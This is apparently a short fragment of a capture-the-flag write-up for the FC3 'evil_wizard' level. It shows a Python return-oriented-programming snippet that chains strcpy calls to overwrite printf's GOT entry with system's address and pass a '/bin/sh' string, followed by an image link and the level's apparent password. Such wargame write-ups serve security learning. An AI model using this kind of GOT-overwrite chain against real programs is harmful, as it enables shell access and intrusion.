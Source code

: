 ```python
for x in range(4):
  payload += p32(strcpy_plt)
  payload += p32(ppr)
  payload += p32(printf_got+(x))
  payload += p32(system_addr[x])

payload += p32(printf_plt)
payload += "C"*4
payload += p32(binsh)

print payload
```

<img src="http://eliez3r.synology.me/assets/img/writeup/fc3/4.evil_wizard/image-20180809175043616.png" width="700px">



**evil_wizard / get down like that**